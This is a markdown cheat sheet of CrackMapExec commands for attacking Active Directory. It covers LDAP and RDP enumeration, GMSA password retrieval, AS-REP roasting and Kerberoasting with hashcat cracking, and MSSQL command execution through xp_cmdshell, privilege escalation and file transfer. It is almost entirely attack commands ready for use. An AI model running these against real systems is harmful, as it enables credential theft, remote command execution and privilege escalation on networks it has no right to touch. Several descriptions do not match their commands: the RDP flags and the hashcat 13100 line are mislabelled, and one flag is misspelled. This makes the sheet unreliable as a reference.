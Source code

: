 ### LDAP Enumeration

| **Command**                                                | **Description**                                                         |
| ---------------------------------------------------------- | ----------------------------------------------------------------------- |
| `cme ldap <target> -u <u> -p <p> --users`                  | Enumerate enabled domain users.                                         |
| `cme ldap <target> -u <u> -p <p> --groups`                 | Enumerate domain groups.                                                |
| `cme ldap <target> -u <u> -p <p> --password-not-required`  | Get the list of users with flag PASSWD\_NOTREQD.                        |
| `cme ldap <target> -u <u> -p <p> --trusted-for-delegation` | Get the list of users and computers with flag TRUSTED\_FOR\_DELEGATION. |
| `cme ldap <target> -u <u> -p <p> ---admin-count`           | Get objets that had the value adminCount=1.                             |
| `cme ldap <target> -u <u> -p <p> --get-sid`                | Get domain sid.                                                         |
| `cme ldap <target> -u <u> -p <p> --gmsa`                   | Enumerate GMSA passwords.                                               |

***

### RDP Enumeration

| **Command**                                                | **Description**                                                                |
| ---------------------------------------------------------- | ------------------------------------------------------------------------------ |
| `cme rdp <target> -u <u> -p <p> --nla-screenshot`          | If NLA is disabled it will allow you to take a screenshot of the login prompt. |
| `cme rdp <target> -u <u> -p <p> --screenshot`              | Enumerate active sessions on the target.                                       |
| `cme rdp <target> -u <u> -p <p> --screentime <SCREENTIME>` | Enumerate permissions on all shares of the target.                             |
| `cme rdp <target> -u <u> -p <p> --res <RESOLUTION>`        | Enumerate active sessions on the target.                                       |

***

### Finding Accounts

| **Command**                                                                   | **Description**                                                                                     |
| ----------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| `cme ldap <target_fqdn> -u <u> -p <p> --asreproast asreproast.out`            | Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required. |
| `cme ldap <target_fqdn> -u <u> -p <p> --kerberoasting kerberoasting.out`      | Retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting technique.                        |
| `hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt --force`    | Module for Cracking ASREPRoast.                                                                     |
| `hashcat -m 13100 kerberoasting.out /usr/share/wordlists/rockyou.txt --force` | Module for Cracking ASREPRoast.                                                                     |

***

### MSSQL Enumeration and Attacks

| **Command**                                                                                            | **Description**                                                                               |
| ------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------- |
| `cme mssql <target> -u <u> -p <p> -q <SQL_QUERY>`                                                      | Perform an SQL Query againts the target machine.                                              |
| `cme mssql <target> -u <u> -p <p> -x <command>`                                                        | Executing Windows command on the target if the option `xp_cmdshell` is available to the user. |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv`                                                       | Enumerates MSSQL privileges to scale from a standard user into a sysadmin.                    |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv -o ACTION=privesc`                                     | Exploit MSSQL privileges to scale from a standard user into a sysadmin.                       |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv -o ACTION=rollback`                                    | Rollback user's privileges to standard user.                                                  |
| `cme mssql <target> -u <u> -p <p> --share <share_name> --get-file <remote_filename> <output_filename>` | Get a remote file from a shared folder.                                                       |
| `cme mssql <target> -u <u> -p <p> --share <share_name> --put-file <local_filename> <remote_filename>`  | Put a local file into a remote location.                                                      |
